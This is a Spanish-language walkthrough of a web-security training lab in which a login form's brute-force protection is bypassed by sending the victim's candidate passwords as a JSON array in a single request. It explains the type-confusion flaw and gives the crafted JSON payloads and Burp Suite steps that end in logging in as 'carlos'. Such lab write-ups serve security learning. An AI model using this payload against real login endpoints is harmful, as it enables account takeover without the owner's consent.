



# 🔓 Protección rota: múltiples credenciales por petición

## 📄 Descripción del laboratorio

Este laboratorio es vulnerable debido a un fallo lógico en su mecanismo de protección contra **ataques de fuerza bruta**.

El backend procesa las credenciales en **formato JSON** y no valida correctamente el tipo del campo `password`, lo que permite enviar **múltiples contraseñas en una sola petición**.

🎯 **Objetivo del laboratorio:**

* Descubrir la contraseña del usuario `carlos`
* Iniciar sesión con su cuenta
* Acceder a la página **My account**

Datos relevantes:

```
Usuario víctima: carlos
```


## 📚 Teoría

El formulario de login envía las credenciales en JSON con un formato similar a:

```json
{
  "username": "carlos",
  "password": "contraseña"
}
```

Aparentemente el sistema implementa algún tipo de protección contra fuerza bruta.

Sin embargo, el backend **no valida el tipo del campo `password`**.

Internamente ocurre algo como:

* Si `password` es un **string**, se compara ese valor.
* Si `password` es un **array**, el backend itera sobre sus elementos.

Esto equivale a una lógica similar a:

```javascript
password == p1 OR password == p2 OR password == p3 ...
```

Si cualquiera de los valores coincide con la contraseña real, el login es válido.

Esto permite:

* Probar **todas las contraseñas candidatas**
* En **una sola petición**
* Sin activar rate limiting


## 📝 Práctica

### 1️⃣ Capturar la petición de login

Abrimos el formulario de login e introducimos credenciales incorrectas.

Interceptamos la petición `POST` con Burp Suite.

El body JSON tiene un formato similar a:

```json
{
  "username": "carlos",
  "password": "test"
}
```

<br><br>
Enviamos la petición a **Burp Repeater**.


### 2️⃣ Probar type confusion

Modificamos el campo `password` para convertirlo en un array:

```json
{
  "username": "carlos",
  "password": ["mal", "peor"]
}
```

Enviamos la petición.

<br><br>
El servidor responde con un error de credenciales normal, pero **no genera error de parsing ni bloqueo**, lo que confirma que acepta arrays.


### 3️⃣ Preparar el array de contraseñas

Tomamos la lista de **contraseñas candidatas** proporcionada por el laboratorio.

La convertimos en un array JSON válido, por ejemplo:

```json
[
  "123456",
  "password",
  "12345678",
  "qwerty",
  "letmein",
  "123456789"
]
```

Cada contraseña debe:

* Estar entre comillas
* Separarse con comas
* Estar dentro de corchetes


### 4️⃣ Enviar la petición final

Construimos la petición completa en **Repeater**:

```json
{
  "username": "carlos",
  "password": [
    "123456",
    "password",
    "12345678",
    "qwerty",
    "letmein"
  ]
}
```

Nos aseguramos de que el JSON sea válido y enviamos la petición.

<br>


### 5️⃣ Resultado

La respuesta cambia y devuelve algo como:

```
302 Found → /my-account
```

o directamente el contenido de la página de cuenta.

Esto indica que una de las contraseñas del array coincide con la contraseña real de `carlos`.

Accedemos a:

```
/my-account
```

y estamos autenticados como ese usuario.

✅ **Laboratorio resuelto.**
